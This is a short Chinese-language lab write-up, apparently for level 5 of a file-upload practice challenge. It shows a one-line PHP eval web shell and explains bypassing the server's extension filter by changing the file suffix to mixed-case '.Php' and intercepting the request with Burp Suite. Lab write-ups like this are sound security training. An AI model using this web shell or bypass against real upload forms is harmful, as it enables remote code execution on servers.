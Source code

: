 ## 解题wp(By:独立团孙德胜Alan)
本pass可以通过修改后缀名的方式绕过

## 1.打开第五关

![](./img/1.png)

## 2.上传一个普通的shell.php文件

```
<?php @eval($_POST('Alan'));?>
```

![](./img/2.png)

#### 提示不允许上传

## 3.分析代码

![](./img/3.png)

#### $file_ext = strtolower($file_ext); //转换为小写

#### 发现转换了大小写，还有常见的后缀名，以及去除了字符串等众多过滤，还过滤了.htaccess，但是仔细审计代码，其实可以通过修改后缀名为Php的方式绕过

## 4.我们可以使用Burpsutie抓包，利用修改后缀大小写的方法

![](./img/4.png)

